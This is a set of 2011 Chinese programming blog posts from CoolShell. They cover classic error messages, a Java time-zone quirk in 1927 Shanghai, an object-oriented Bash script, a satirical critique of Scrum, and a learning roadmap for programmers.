


# 10大经典错误

#####  [2011年08月08日 ](https://coolshell.cn/articles/5107.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [47 条评论](https://coolshell.cn/articles/5107.html#comments) 35,965 人阅读

下面是10、11个经典的错误，升序排名。希望大家补充！

目录


[10、DOS的Abort，Retry, Fail？错误](https://coolshell.cn/articles/5107.html#10、DOS的Abort，Retry_Fail？错误)[9、Windows Vista 的红屏错误](https://coolshell.cn/articles/5107.html#9、Windows_Vista_的红屏错误)[8、PC机的开机报警](https://coolshell.cn/articles/5107.html#8、PC机的开机报警)[7、Twitter的大鲸鱼](https://coolshell.cn/articles/5107.html#7、Twitter的大鲸鱼)[6、Kernel Panic](https://coolshell.cn/articles/5107.html#6、Kernel_Panic)[5、Windows的非法操作](https://coolshell.cn/articles/5107.html#5、Windows的非法操作)[4、Windows RPC Error](https://coolshell.cn/articles/5107.html#4、Windows_RPC_Error)[3、Xbox 360 三红错误](https://coolshell.cn/articles/5107.html#3、Xbox_360_三红错误)[2、Web上的404错误](https://coolshell.cn/articles/5107.html#2、Web上的404错误)[1、Windows 蓝屏错误](https://coolshell.cn/articles/5107.html#1、Windows_蓝屏错误)[0、该页无法显示错误](https://coolshell.cn/articles/5107.html#0、该页无法显示错误)

#### 10、DOS的Abort，Retry, Fail？错误

85年以后出生的人可能不知道DOS是什么了，只有那老家伙还知道这是什么。我还记得当时的我对于Abort和Fail这两个选择还是比较清楚的，不过，今天完全忘记了Abort和Fail的差别是什么？这个出是DOS下的经常出现，也相当的经典，以至于在Wikepedia上都有专门的业面 [Abort, Retry, Fail?](https://en.wikipedia.org/wiki/Abort,_Retry,_Fail%3F)。简称为ARF。当然，ARI – Abort, Retry, Ignore?


#### 9、Windows Vista 的红屏错误

[红屏错误](https://en.wikipedia.org/wiki/Red_Screen_of_Death)（RSoD – Red Screen of Death）不单单只是Windows Vista引入的（也许是蓝屏太有名了，突然变成红屏，大家觉得这个是比蓝屏更NB的错，所以也就引人关注了），PlayStation的也喜欢使用红屏。

Windows Vista 的 RSoD


PSP的红屏

#### 8、PC机的开机报警

攒过PC的朋友都知道如果你的内存条有问题，PC开机时会长鸣报警，一长一短则是显卡有问题，等等。你可以上Wikipedia上看看相关的词条——[Power On Self-Test Beep](https://en.wikipedia.org/wiki/Power-on_self_test)。

第一代的AMI BIOS

#### 7、Twitter的大鲸鱼

Twitter的服务器负载一吃紧，下面的这个页面就会显现出来了，大家把它叫做**Fail Whale** ，这个情况在今年4月份以前的2到3年是非常频繁发生的，现在看似好很多了，看来Twitter工程师们克服了这个负载问题。你千万不要以为这个图是Twitter自己设计的，这个图是一个叫[Yiying Lu](https://www.google.com/search?q=yiying+lu&ie=utf-8&oe=utf-8&aq=t&rls=FlockInc.:en-US:unofficial&client=firefox)的人设计的。不过由Twitter引发出来的文化影响力是比较深远的，甚至还出现了相要把这个事发扬光大的Fail Whale project ([@FailWhale](https://www.twitter.com/failwhale), [failwhale.com](http://www.failwhale.com/))以及相关的T恤衫。你可以看看[这篇文章](http://www.readwriteweb.com/archives/the_story_of_the_fail_whale.php)。

Twitter Fail Whale

#### 6、Kernel Panic

Kernel Panic相关于Windows 的蓝屏错误，其发生在Mac OS X和Linux下，在Mac OS X v10.6 *Snow Leopard*中，当进入内核错误后，会在画面上出现一个有英语、法语、德语、西班牙语及日语的当机画面，被多数用户称为“五国语言当机”，简称“五国”。在Linux上则是Linux Kernel oops。当内核检测到问题时，它会打印一个oops信息然后杀死全部相关进程。oops信息可以帮助Linux内核工程师调试，检测oops出现的条件，并修复导致oops的程序错误。

Mac OS X 10.6的内核错误警告，俗称“五国”

PA-RISC上发生的Linux内核oops，用ASCII显示一头死牛

#### 5、Windows的非法操作

这个错误信息主要是操作系统用来保护自己的错误，也就是Windows下的程序crash。通常来说，是内存访问错误引发的。不过，这个东西在windows下太多了，这是Win95和Win98中的大量的问题，包括微软自己的软件也经常出现这个问题，最为典型的就是IE6的crash。让IE6 出现这样的错误真是太简单了，参看[酷壳的这篇文章](https://coolshell.cn/articles/2357.html)。

该程序执行了非法操作

#### 4、Windows RPC Error

这个错误之所以很牛，是因为在2003年的8月份，很多使用Windows的用户都看到了这个错误，其系统被强行重启，重启了以后又收到这个错误，然后又被重启。这个事看上去就像一个正常的Windows的错误（相当正常，因为这样的红叉叉在Windows上看到了N多次了，用户都习惯了），但其实，这个事是有人故意的，这就是那个著名的[Blaster worm](https://en.wikipedia.org/wiki/Blaster_(computer_worm))蠕虫病毒，其利用了Windows DCOM的一个漏洞。

Windows RPC Error

#### 3、Xbox 360 三红错误

这个错误又叫RRoD – Red Ring of Death，在中国地区叫“三红”。微软在推出的游戏主机Xbox360后，众多用户曾向微软方面投诉游戏主机经常出现不同程度的故障，而且概率偏高，有调查显示，早期版本Xbox360返修率高达68% ，而最近的报告指出故障机率还是有33%。过热是游戏配件产品制造商Nyko认为Xbox360主机发生三红灯警告的主要原因，也有人指出因为Xbox 360机能不足所以长期开机超频引致过热。[有报告指出](http://www.bloomberg.com/apps/news?pid=newsarchive&sid=aOrvYZ2gPwZk&refer=home)微软花费了超过11.5亿美元在回收及修理出现问题的XBOX 360。

XBox 360 Red Ring of Death

#### 2、Web上的404错误

HTTP 404或Not Found错误讯息是HTTP的其中一种“标准回应讯息”（HTTP状态码），此讯息代表客户端在浏览网页时，服务器无法打到用户要请求的资源，所以报错。404是一个你无法避免的错误，因为可能是因为用户或你的开发人员编码里打错连接。所以，很多公司借用这个机会来美化404页面，本站以前也介绍过（如：[StackOverflow的404](https://coolshell.cn/articles/2529.html)，[各式各样的404错](https://coolshell.cn/articles/1826.html)），这里还有一个404的一首诗：

> four oh four
> by mind21_98
>
> oh what a wonderful tizzy
> which was in a fizzy
> he couldn’t find the file
> which was hiding in the bushes
>
> push the back button oh traveller
> contact the owner of the last tavern
> find out how to get to where you’re going
> and be on your way

#### 1、Windows 蓝屏错误

[Blue Screen of Death](https://en.wikipedia.org/wiki/Blue_Screen_of_Death)，缩写为：**BSoD**。这是这个世界最著名的错误了，和Kernel Panic 一样，基本上就是说，内核死翘翘了。在各种场合上我们都能看到这个错误。

北京2008奥林匹克

飞机场航班显示

商场显示屏

Bill Gates在Win98发布会上的蓝屏遭遇：


 

本来文章到这里就可以结束了，上文参考自这里[The 13 Greatest Error Message of All Time](http://technologizer.com/2008/09/18/errormessage)。不过，我觉得还有一个错误必然会载入史册。这就是下面的“该页无法显示错误”

#### 0、该页无法显示错误

这个错误对于中国用户不会陌生。这个错误以前更多的是Connection Reset，N年前你访问很多国外的网站者会遇到Connection Reset错，今天呢，更多的是“Time Out”，因为，关键词匹配太耗性能了，图片和视频的无法使用关键词过滤，所以，还不如直接封了IP，简单而粗暴，今天的Connection Reset更多的是出现在使用Google的搜索，当你搜某些关键词时就出这个错了。

该页无法显示 Connection Reset

（全文完）

# 你确信你了解时间吗？

#####  [2011年08月01日 ](https://coolshell.cn/articles/5075.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [93 条评论](https://coolshell.cn/articles/5075.html#comments) 53,623 人阅读

你还记得“[软件真的好难做](https://coolshell.cn/articles/4811.html)”中的那个有意思的例子吗？那个例子告诉我们软件开发中假设可能会是致命的事。今天，我又在StackOverflow上看到一个关于时间的问题——[为什么1927年12月31日的午夜时间这么奇怪](http://stackoverflow.com/questions/6841333/why-is-subtracting-these-two-times-in-1927-giving-a-strange-result)？提问题的这个人给了下面的一段java代码（我做一些修改，保证让你可以copy过去就可以编译运行）

我在其中高亮了几行，这个程序就是想比较一下“1927-12-31 23:54:07”  和  “1927-12-31 23:54:08” 差几秒，很明显，是差一秒。但是程序的输出却不是这样的。

```
import java.text.SimpleDateFormat;
import java.text.ParseException;
import java.util.Date;
import java.util.TimeZone;
class time{
    public static void main(String[] args) throws ParseException {
        SimpleDateFormat sf = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
        sf.setTimeZone(TimeZone.getTimeZone("Asia/Shanghai"));
        String str3 = "1927-12-31 23:54:07";
        String str4 = "1927-12-31 23:54:08";
        Date sDt3 = sf.parse(str3);
        Date sDt4 = sf.parse(str4);
        long ld3 = sDt3.getTime() /1000;
        long ld4 = sDt4.getTime() /1000;
        System.out.println(ld3);
        System.out.println(ld4);
        System.out.println(ld4-ld3);
    }
}
```

 


下面，让我们来看看程序的输出：（是的，差出353秒钟来）

> ```
> -1325491905-1325491552353
> ```

Stackoverflow真的很强大，在大家要求发问者给出时区（中国上海）的15分钟内就解决了这个问题。相当的令人惊叹。原因是什么呢？大家需要围观一下[这个网页](http://www.timeanddate.com/worldclock/clockchange.html?n=237&year=1927)。（为了怕被墙或是被和谐，我已习惯了抓屏保存，如果有人能开发一个软件能随看随抓，然后如果源被删了可以P2P的从已下载了的人那里获取，那么这个软件应该会很有国内市场。蛋扯远了，Sorry）


从上图中我们可以看到—— 在1927年12月31日23:59:59时，往后面的一秒应该是1928年1月1日 0:0:0，但是这个时间被往后调整了5分52秒，而成了，1927年12月31日的，23:54:08，于是，完成了352秒的穿越。于是我们的Java程序出了这样的一个问题，这真是一个奇迹。

为什么会有这个调整呢？我居然Google不到，不过，我在这个timeanddate.com上查看了一下北京的时间，发现北京的时间只到1970年，于是我猜想，中国近代历史乱七八糟的政权交替可能是这个原因。于是我看 了一下北京和上海物理时差，果然，北京上海的时差在5分50秒左右。**因此，我觉得这个时间的变化应该是从上海（南京）时间变成了北京时间**。至于你信不信，反正我是信了。

从这个事，我得到下面的一些启示：

1. Java在的时区实现相当的强大啊。这种细节都能考虑到。
2. 本地时间的完全就是一锅粥，应该尽量不用。
3. 如果你要开发和时区有关系的程序，你的系统里一定要使用GMT标准时间，仅在显示的时候才转成本地时间。

各位无证程序员们，看到这个例子，你们是不是感到编程的压力了？呵呵。

# 面向对象的SHELL脚本

#####  [2011年07月21日 ](https://coolshell.cn/articles/5035.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [17 条评论](https://coolshell.cn/articles/5035.html#comments) 29,390 人阅读

还记得以前那个用[算素数的正则表达式](https://coolshell.cn/articles/2704.html)吗？编程这个世界太有趣了，总是能看到一些即别出心裁的东西。你有没有想过在写Shell脚本的时候可以把你的变量和函数放到一个类中？不要以为这不可能，这不，我在[网上](http://lab.madscience.nl/oo.sh.txt)又看到了一个把Shell脚本整成面向对象的东西。Shell本来是不支持的，需要自己做点东西，能搞出这个事事的人真的是hacker啊。

当然，这里并不是真正的面向对象，因为其只是封装罢了，还没有支持继承和多态。最变态的是他居然还支持typeid，靠！

下面让我们看看他是怎么来做的。下面的脚本可能会有点费解。本想解释一下，后来想想，还是大家自己专研一下吧，其实看懂也不难，给大家提几个点吧。

1. 我们可以看到，下面的这个脚本定义了class,  func, var, new 等函数，其实这些就是所谓的关键字。
2. class是一个函数，主要是记录类名。
3. func和var实际上是把成员函数名和成员变量记成有相同前缀的各种变量。
4. new方法主要是记录实例。大家重点看看new函数里的那个for循环，最核心的就在那里了。

脚本如下所示：

**#!/bin/bash**

\# -------------------------------------------------------------------

\# OO support functions

\# Kludged by Pim van Riezen <pi@madscience.nl>

\# -------------------------------------------------------------------

**DEFCLASS**=""

**CLASS**=""

**THIS**=0

**class() {**

  **DEFCLASS**="$1"

  eval CLASS_${DEFCLASS}_VARS=""

  eval CLASS_${DEFCLASS}_FUNCTIONS=""

}

**static() {**

  **return** 0

}

**func() {**

  local varname="CLASS_${DEFCLASS}_FUNCTIONS"

  eval "$varname=\"\${$varname}$1 \""

}

**var() {**

  local varname="CLASS_${DEFCLASS}_VARS"

  eval **$varname**="\"\${$varname}$1 \""

}

**loadvar() {**

  eval "varlist=\"\$CLASS_${CLASS}_VARS\""

  **for** var **in** **$varlist**; **do**

​    eval "$var=\"\$INSTANCE_${THIS}_$var\""

  **done**

}

**loadfunc() {**

  eval "funclist=\"\$CLASS_${CLASS}_FUNCTIONS\""

  **for** func **in** **$funclist**; **do**

​    eval "${func}() { ${CLASS}::${func} \"\$*\"; return \$?; }"

  **done**

}

**savevar() {**

  eval "varlist=\"\$CLASS_${CLASS}_VARS\""

  **for** var **in** **$varlist**; **do**

​    eval "INSTANCE_${THIS}_$var=\"\$$var\""

  **done**

}

**typeof() {**

  eval echo \**$TYPEOF_****$1**

}

**new() {**

  local

  local cvar="$2"

  shift

  shift

  local id=$(uuidgen | tr A-F a-f | sed -e "s/-//g")

  eval TYPEOF_${id}=**$class**

  eval **$cvar**=**$id**

  local funclist

  eval "funclist=\"\$CLASS_${class}_FUNCTIONS\""

  **for** func **in** **$funclist**; **do**

​    eval "${cvar}.${func}() {

​      local t=\$THIS; THIS=$id; local c=\$CLASS; CLASS=$class; loadvar;

​      loadfunc; ${class}::${func} \"\$*\"; rt=\$?; savevar; CLASS=\$c;

​      THIS=\$t; return $rt;

​    }"

  **done**

  eval "${cvar}.${class} \"\$*\" || true"

}

下面，让我们来看看例程吧。

\# -------------------------------------------------------------------

\# Example code

\# -------------------------------------------------------------------

\# class definition

class Storpel

  func Storpel

  func setName

  func setQuality

  func print

  var name

  var quality

\# class implementation

Storpel::Storpel() {

  setName "$1"

  setQuality "$2"

  **if** [ -z "$name" ]; **then** setName "Generic"; **fi**

  **if** [ -z "$quality" ]; **then** setQuality "Normal"; **fi**

}

Storpel::setName() { name="$1"; }

Storpel::setQuality() { quality="$1"; }

Storpel::print() { echo "$name ($quality)"; }

\# usage

new Storpel one "Storpilator 1000" Medium

new Storpel two

new Storpel three

two.setName "Storpilator 2000"

two.setQuality "Strong"

one.print

two.print

three.print

echo ""

echo "one: $one ($(typeof $one))"

echo "two: $two ($(typeof $two))"

echo "three: $three ($(typeof $two))"

 

（全文完）

# 为什么SCRUM不行？

#####  [2011年07月21日 ](https://coolshell.cn/articles/5044.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [102 条评论](https://coolshell.cn/articles/5044.html#comments) 60,568 人阅读

这篇文章的原文在这里（[原文链接](https://maurits.wordpress.com/2011/07/13/why-scrum-will-never-work/)）（**下文不是全译，也不是部分译，我只是把其总结，有我自己的发挥，但是原意大致不变**），这篇文章完全是在调侃Scrum的，作者第一段就是一个免费声明，其说他是[Scrum](https://en.wikipedia.org/wiki/Scrum_(development))和其它敏捷方法的big fan， 他也认为Scrum 100% 对 软件开发可行。作者使用Scrum 5年了，也公开作过几次敏捷的分享会。他觉得写这篇文章只是为了好玩，因为他们戴上[Edward de Bono](https://en.wikipedia.org/wiki/Edward_de_Bono) 的 [black hat](https://en.wikipedia.org/wiki/Six_Thinking_Hats#Black_hat_.E2.80.93_Being_Cautious) （黑礼帽 – 是6个思考之帽中的一种——负面思考，思考事物的负面因素，这样才知道：它会起作用吗？缺点是什么？它有什么问题？为什么不能做。）

因为本人经常站在Agile的风口浪尖，所以我有必要也来一个“免责声明”。Shit！其实我想来的是“**不免责声明**” ——**下文中的九大原因是对中国的各种Agile实践者咨询师不注重实际只重方法论的批判**，**本人必然要和那种只以流程方法论为中心的软件开发斗争到底**。其实我没有那么嚣张，**我只是想说，下面的这些东西相当的现实。希望各种Scrum的实践者们认识到这些问题，从而可以让你们明白软件开发中的人的重要性**。

**Reason 1**:  [Scrum](https://en.wikipedia.org/wiki/Scrum_(development)) 的基石是相信人。创造一个安全的环境，这样每个人都能相互学习，相互直言。但是，这是不行的，这世上有很多人并不关心这些，而且政治和竞争到处都是，办公室里无小事，你和别人交心，你相信他们，最终受伤的你自己。你真的以为那里有空间让你可以去犯错，去冒险吗？别天真了！你啊，too young, too simple, sometimes naive!

**Reason 2**: [Scrum](https://en.wikipedia.org/wiki/Scrum_(development)) 认为只要给员工足够多的自由员工就能做得最好。这该死是理论是基于什么玩意？不可能，人的天性是懒惰的，他们才不会把事做好的，他们只会做相应报酬的工作量，还可能基本还达不到其相应的报酬，大多数人都在混日子啊。尤其是和经理比起来，谁不想能尽快地成为经理或Team leader啊，因为那样他们就可以即不干活，又挣得多。另外，你给他们自由，你就会发现，他们会只会做他们感兴趣的事，要么聊QQ，要么打游戏，看闲书，反正不干正事。直到你催了，他们才动一动。


**Reason 3**: 因为前面的原因，所以，我们仍然要把一个PM放在Scrum团队的上面做管理，这样才会有产出。于是，PM给团队分配任何，管得细枝末节，事无巨细，天天让你做进度汇报，等等。直至把团队拖垮。

**Reason 4**: [Scrum](https://en.wikipedia.org/wiki/Scrum_(development)) 只不过是一个流程。这世上有太多的流程，尤其是那那些操CMMi的公司。几乎所有玩CMMi流程的公司，你都能看到的是员工都是那一副副苦逼的脸。所以，Scrum的流程同样会这样。因为这些都不是开发团队自发出来的，而是上面管你喜欢不喜欢按给你的。 Scrum 根本不可能增进你的软件质量和技术，只能是优秀的人才才可能！使用Scrum的公司都是些吝啬鬼，他们不愿花大钱招优秀的人，他们妄图使用Scrum这种东西让现有的这些廉价劳动力发挥更大的生产效率，Scrum成了push程序员最有用的工具。

**Reason 5**: [Scrum](https://en.wikipedia.org/wiki/Scrum_(development)) delivers ‘business value’。不是这样的，实际上，Scrum不可能。这有很多原因。真正了解业务的那帮人根本不可能加入项目团队，那些人谁TMD愿意和苦逼的技术人员加班啊。 那些人喜欢和我们的用户吃吃喝喝，花天酒地的，根本不会和你们那些奇怪的东西（如：backlog）或是那堆ugly的内向古怪的技术人员打交道，更别说什么技术了。所以，你的团队就像一个客服团队或救火队一样疲于奔命。

**Reason 6**: 一个敏捷的团队应该是持续进步的。这就是为什么Scrum总是在问什么干得好，什么需要改进，并定义行动方案。你真的以为员工想进步吗？让他们不得不去想想自己和团队怎么进步，然后他们还不得不去执行行动方案。别天真了，人的天性是不喜欢改变的，人的天性是习惯于一些按部就般的事的，也许那样做令人讨厌，但是人家还是能干点东西出来。如果你逼着人家改变，你就是在压迫人家，人家自然会反抗。

**Reason 7**: Product Owner 专注于 ‘what’ 和 ‘why’ 的问题，开发团队决定 ‘how’。很不错的分工，于是可以造就一个即高速有重质量的团队。然而，这根本不行。你的Product Owner马上就想要这个功能，他才不管你的软件开发的技术难题，人家只要快，要你meet deadline，要你给我们重要的客户做出承诺。另外，你千万不要以为你们可以哄走这个初级的product owner，因为他的后台是直接汇报到高层管理。你作为一个程序员可能只是其个小部门的一个小喽啰，或者只是外包公司，你觉得可能吗？你觉得建立信任可能吗？

**Reason 8**: 软件质量和生产率成正比。也就是说，质量越高，生产率越高。如果质量不高，你开发效率就会低下，但是谁管呢？我们朝九晚五的上班，质量好了也是做8小时，质量差了也是做8小时，无所为嘛。另外，我们的 project manager (或者是Scrum master!) 总是会批评我们没有按计划完成。所以，这根本 不可能。

**Reason 9**: “是的，如果我们只做需要的功能，那么我们就会最低的成本，对吗？”，为什么这世上总是会有这些幼稚的人？这种事怎么可能啊。很多很多的银行或保险公司的项目在你还没有启动项目前就谈好了一个价格（可能还会有回扣），为了打单子，销售什么都干得出来，让你去做项目是因为你是廉价劳动力，而且，他们会不断地加需求，因为软件合同谈好的价格时候，连需求都没有，你去做了才有，还是模糊和不确定或根本就是错的，然后需求是越来越多，越改越多。等你精疲力尽的时候，你才意识到，销售早就把你卖了。


爽啊，戴着黑礼帽思考问题比我想像中的要有趣得多，现在我必需要把它摘下来了。

**看完这篇文章，你觉得是人的问题还是软件开发方法的问题？**

（全文完）

# 程序员技术练级攻略

#####  [2011年07月18日 ](https://coolshell.cn/articles/4990.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [659 条评论](https://coolshell.cn/articles/4990.html#comments) 10,238,361 人阅读

**注：该文最新的版本在这里《[程序员技术练级攻略（2018版）](https://coolshell.cn/articles/18360.html)》（需要付费阅读）**

月光博客6月12日发表了《[写给新手程序员的一封信](https://www.williamlong.info/archives/2700.html)》，翻译自《[An open letter to those who want to start programming](http://blog.akash.im/an-open-letter-to-those-who-want-to-start)》，我的朋友（他在本站的id是[Mailper](https://coolshell.cn/?author=3)）告诉我，他希望在酷壳上看到一篇更具操作性的文章。因为他也是喜欢编程和技术的家伙，于是，我让他把他的一些学习Python和Web编程的一些点滴总结一下。于是他给我发来了一些他的心得和经历，我在把他的心得做了不多的增改，并根据我的经历增加了“进阶”一节。**这是一篇由新手和我这个老家伙根据我们的经历完成的文章**。

我的这个朋友把这篇文章取名叫Build Your Programming Technical Skills，我实在不知道用中文怎么翻译，但我在写的过程中，**我觉得这很像一个打网游做任务升级的一个过程，所以取名叫“技术练级攻略”，题目有点大，呵呵，这个标题纯粹是为了好玩**。**这里仅仅是在分享Mailper和我个人的学习经历。**（注：省去了我作为一个初学者曾经学习过的一些技术(今天明显过时了)，如：Delphi/Power builder，也省去了我学过的一些我觉得没意思的技术Lotus Notes/ActiveX/COM/ADO/ATL/.NET ……）

目录


[前言](https://coolshell.cn/articles/4990.html#前言)[启蒙入门](https://coolshell.cn/articles/4990.html#启蒙入门)[进阶加深](https://coolshell.cn/articles/4990.html#进阶加深)[高级深入](https://coolshell.cn/articles/4990.html#高级深入)

#### 前言

你是否觉得自己从学校毕业的时候只做过小玩具一样的程序？走入职场后哪怕没有什么经验也可以把以下这些课外练习走一遍（朋友的抱怨：学校课程总是从理论出发，作业项目都看不出有什么实际作用，不如从工作中的需求出发）

建议：

- 不要乱买书，不要乱追新技术新名词，基础的东西经过很长时间积累而且还会在未来至少10年通用。
- 回顾一下历史，看看历史上时间线上技术的发展，你才能明白明天会是什么样。
- 一定要动手，例子不管多么简单，建议至少自己手敲一遍看看是否理解了里头的细枝末节。
- 一定要学会思考，思考为什么要这样，而不是那样。还要举一反三地思考。

**注**：你也许会很奇怪为什么下面的东西很偏Unix/Linux，这是因为我觉得Windows下的编程可能会在未来很没有前途，原因如下：


- 现在的用户界面几乎被两个东西主宰了，1）Web，2）移动设备iOS或Android。Windows的图形界面不吃香了。
- 越来越多的企业在用成本低性能高的Linux和各种开源技术来构架其系统，Windows的成本太高了。
- 微软的东西变得太快了，很不持久，他们完全是在玩弄程序员。详情参见《[Windows编程革命史](https://coolshell.cn/articles/3008.html)》

所以，我个人认为以后的趋势是前端是Web+移动，后端是Linux+开源。开发这边基本上没Windows什么事。

#### 启蒙入门

**1、 学习一门脚本语言，例如Python/Ruby**

可以让你摆脱对底层语言的恐惧感，脚本语言可以让你很快开发出能用得上的小程序。实践项目:

- 处理文本文件，或者csv (关键词 python csv, python open, python sys) 读一个本地文件，逐行处理（例如 word count，或者处理log）
- 遍历本地文件系统 (sys, os, path)，例如写一个程序统计一个目录下所有文件大小并按各种条件排序并保存结果
- 跟数据库打交道 (python sqlite)，写一个小脚本统计数据库里条目数量
- 学会用各种print之类简单粗暴的方式进行调试
- 学会用Google (phrase, domain, use reader to follow tech blogs)

为什么要学脚本语言，因为他们实在是太方便了，很多时候我们需要写点小工具或是脚本来帮我们解决问题，你就会发现正规的编程语言太难用了。

**2、 用熟一种程序员的编辑器(不是IDE) 和一些基本工具**

- Vim / Emacs / Notepad++，学会如何配置代码补全，外观，外部命令等。
- Source Insight (或 ctag)

使用这些东西不是为了Cool，而是这些编辑器在查看、修改代码/配置文章/日志会更快更有效率。

**3、 熟悉Unix/Linux Shell和常见的命令行**

- 如果你用windows，至少学会用虚拟机里的linux， vmware player是免费的，装个Ubuntu吧
- 一定要少用少用图形界面。
- 学会使用man来查看帮助
- 文件系统结构和基本操作 ls/chmod/chown/rm/find/ln/cat/mount/mkdir/tar/gzip …
- 学会使用一些文本操作命令 sed/awk/grep/tail/less/more …
- 学会使用一些管理命令 ps/top/lsof/netstat/kill/tcpdump/iptables/dd…
- 了解/etc目录下的各种配置文章，学会查看/var/log下的系统日志，以及/proc下的系统运行信息
- 了解正则表达式，使用正则表达式来查找文件。

对于程序员来说Unix/Linux比Windows简单多了。（参看我四年前CSDN的博文《[其实Unix很简单](http://blog.csdn.net/haoel/article/details/1533720)》）学会使用Unix/Linux你会发现图形界面在某些时候实在是太难用了，相当地相当地降低工作效率。

**4、 学习Web基础（HTML/CSS/JS) + 服务器端技术 (LAMP)**

未来必然是Web的世界，学习WEB基础的最佳网站是[W3School](http://www.w3school.com.cn/)。

- 学习HTML基本语法
- 学习CSS如何选中HTML元素并应用一些基本样式（关键词：box model）
- 学会用  Firefox + Firebug 或 chrome 查看你觉得很炫的网页结构，并动态修改。
- 学习使用Javascript操纵HTML元件。理解DOM和动态网页（http://oreilly.com/catalog/9780596527402) 网上有免费的章节，足够用了。或参看 [DOM](http://www.w3school.com.cn/htmldom/index.asp) 。
- 学会用  Firefox + Firebug 或 chrome 调试Javascript代码（设置断点，查看变量，性能，控制台等）
- 在一台机器上配置[Apache ](https://coolshell.cn/articles/www.apache.org)或 [Nginx](https://coolshell.cn/articles/nginx.net)
- 学习[PHP](https://coolshell.cn/articles/www.php.net)，让后台PHP和前台HTML进行数据交互，对服务器相应浏览器请求形成初步认识。实现一个表单提交和反显的功能。
- 把PHP连接本地或者远程数据库 MySQL（MySQL 和 SQL现学现用够了）
- 跟完一个名校的网络编程课程（例如：http://www.stanford.edu/~ouster/cgi-bin/cs142-fall10/index.php ) 不要觉得需要多于一学期时间，大学生是全职一学期选3-5门课，你业余时间一定可以跟上
- 学习一个javascript库（例如jQuery 或 ExtJS）+  Ajax (异步读入一个服务器端图片或者数据库内容）+JSON数据格式。
- HTTP: The Definitive Guide 读完前4章你就明白你每天上网用浏览器的时候发生的事情了(proxy, gateway, browsers)
- 做个小网站（例如：一个小的留言板，支持用户登录，Cookie/Session，增、删、改、查，上传图片附件，分页显示）
- 买个域名，租个空间，做个自己的网站。

#### 进阶加深

**1、 C语言和操作系统调用**

- 重新学C语言，理解指针和内存模型，用C语言实现一下各种经典的算法和数据结构。推荐《[计算机程序设计艺术](http://product.china-pub.com/197050)》、《[算法导论](http://product.china-pub.com/31701)》和《[编程珠玑](http://product.china-pub.com/209243)》。

- 学习[（麻省理工免费课程）计算机科学和编程导论](https://coolshell.cn/articles/3723.html)

- 学习[（麻省理工免费课程）C语言内存管理](https://coolshell.cn/articles/2474.html)

- 学习Unix/Linux系统调用（

  Unix高级环境编程

  ），，了解系统层面的东西。

  - 用这些系统知识操作一下文件系统，用户（实现一个可以拷贝目录树的小程序）
  - 用fork/wait/waitpid写一个多进程的程序，用pthread写一个多线程带同步或互斥的程序。多进程多进程购票的程序。
  - 用signal/kill/raise/alarm/pause/sigprocmask实现一个多进程间的信号量通信的程序。
  - 学会使用gcc和gdb来编程和调试程序（参看我的《[用gdb调试程序](https://coolshell.cn/articles/blog.csdn.net/haoel/article/details/2879)》）
  - 学会使用makefile来编译程序。（参看我的《[跟我一起写makefile](https://coolshell.cn/articles/blog.csdn.net/haoel/article/details/2886)》）
  - IPC和Socket的东西可以放到高级中来实践。

- 学习Windows SDK编程（

  Windows 程序设计 

  ，

  MFC程序设计

  ）

  - 写一个窗口，了解WinMain/WinProcedure，以及Windows的消息机制。
  - 写一些程序来操作Windows SDK中的资源文件或是各种图形控件，以及作图的编程。
  - 学习如何使用MSDN查看相关的SDK函数，各种WM_消息以及一些例程。
  - 这本书中有很多例程，在实践中请不要照抄，试着自己写一个自己的例程。
  - 不用太多于精通这些东西，因为GUI正在被Web取代，主要是了解一下Windows 图形界面的编程。@[virushuo](https://twitter.com/#!/virushuo) 说：“ 我觉得GUI确实不那么热门了，但充分理解GUI工作原理是很重要的。包括移动设备开发，如果没有基础知识仍然很吃力。或者说移动设备开发必须理解GUI工作，或者在win那边学，或者在mac/iOS上学”。

**2、学习Java**

- Java 的学习主要是看经典的Core Java 《[Java 核心技术编程](http://product.china-pub.com/208978)》和《[Java编程思想](http://product.china-pub.com/34838)》（有两卷，我仅链了第一卷，足够了，因为Java的图形界面了解就可以了）
- 学习JDK，学会查阅Java API Doc http://download.oracle.com/javase/6/docs/api/
- 了解一下Java这种虚拟机语言和C和Python语言在编译和执行上的差别。从C、Java、Python思考一下“跨平台”这种技术。
- 学会使用IDE Eclipse，使用Eclipse 编译，调试和开发Java程序。
- 建一个Tomcat的网站，尝试一下JSP/Servlet/JDBC/MySQL的Web开发。把前面所说的那个PHP的小项目试着用JSP和Servlet实现一下。

**3、Web的安全与架构**

- 学习HTML5，网上有很多很多教程，以前[酷壳](https://coolshell.cn/)也介绍过很多，我在这里就不罗列了。
- 学习Web开发的安全问题（参考[新浪微博被攻击的这个事](https://coolshell.cn/articles/4914.html)，以及[Ruby的这篇文章](http://guides.rubyonrails.org/security.html)）
- 学习HTTP Server的rewrite机制，Nginx的反向代理机制，[fast-cgi](https://en.wikipedia.org/wiki/Fast_CGI)（如：[PHP-FPM](http://php-fpm.org/)）
- 学习Web的静态页面缓存技术。
- 学习Web的异步工作流处理，数据Cache，数据分区，负载均衡，水平扩展的构架。
- 实践任务：
  - 使用HTML5的canvas 制作一些Web动画。
  - 尝试在前面开发过的那个Web应用中进行SQL注入，JS注入，以及XSS攻击。
  - 把前面开发过的那个Web应用改成构造在Nginx + PHP-FPM + 静态页面缓存的网站

**4、学习关系型数据库**

- 你可以安装MSSQLServer或MySQL来学习数据库。
- 学习教科书里数据库设计的那几个范式，1NF，2NF，3NF，……
- 学习数据库的存过，触发器，视图，建索引，游标等。
- 学习SQL语句，明白表连接的各种概念（参看《[SQL  Join的图示](https://coolshell.cn/articles/3463.html)》）
- 学习如何优化数据库查询（参看《[MySQL的优化](https://coolshell.cn/articles/1846.html)》）
- **实践任务**：设计一个论坛的数据库，至少满足3NF，使用SQL语句查询本周，本月的最新文章，评论最多的文章，最活跃用户。

**5、一些开发工具**

- 学会使用SVN或Git来管理程序版本。
